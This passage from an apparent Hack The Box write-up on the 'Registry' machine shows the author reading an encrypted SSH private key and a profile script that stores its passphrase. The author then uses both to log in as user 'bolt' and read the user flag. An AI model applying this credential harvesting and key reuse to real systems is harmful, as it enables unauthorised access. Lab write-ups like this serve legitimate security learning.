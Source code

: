 There's an encrypted SSH private key in `/root/.ssh`:

```
root@4195e2eb99fe:~/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,1C98FA248505F287CCC597A59CF83AB9

KF9YHXRjDZ35Q9ybzkhcUNKF8DSZ+aNLYXPL3kgdqlUqwfpqpbVdHbMeDk7qbS7w
KhUv4Gj22O1t3koy9z0J0LpVM8NLMgVZhTj1eAlJO72dKBNNv5D4qkIDANmZeAGv
[...]
RLI9xScv6aJan6xHS+nWgxpPA7YNo2rknk/ZeUnWXSTLYyrC43dyPS4FvG8N0H1V
94Vcvj5Kmzv0FxwVu4epWNkLTZCJPBszTKiaEWWS+OLDh7lrcmm+GP54MsLBWVpr
-----END RSA PRIVATE KEY-----
```

There's a profile file containing the SSH password for the private key:

```
root@4195e2eb99fe:/etc/profile.d# ls -l
total 8
-rw-r--r-- 1 root root  96 Aug 20  2018 01-locale-fix.sh
-rwxr-xr-x 1 root root 222 May 25 01:25 01-ssh.sh
root@4195e2eb99fe:/etc/profile.d# cat 01-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

Password is: `GkOcz221Ftb3ugog`

There's also a `sync.sh` but it doesn't seem to do anything:

```
root@4195e2eb99fe:/var/www/html# cat sync.sh
#!/bin/bash
rsync -azP registry:/var/www/html/bolt .
```

## Login in as user bolt

With the private key and password I found I'm able to SSH to the box with the user `bolt`:
```
root@kali:~/htb/registry# ssh -i id_rsa bolt@10.10.10.159
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-29-generic x86_64)
Last login: Sun Oct 20 23:05:17 2019 from 10.10.14.20
bolt@bolt:~$ id
uid=1001(bolt) gid=1001(bolt) groups=1001(bolt)
bolt@bolt:~$ cat user.txt
ytc0ytdmnzywnzgxngi0zte0otm3ywzi
```
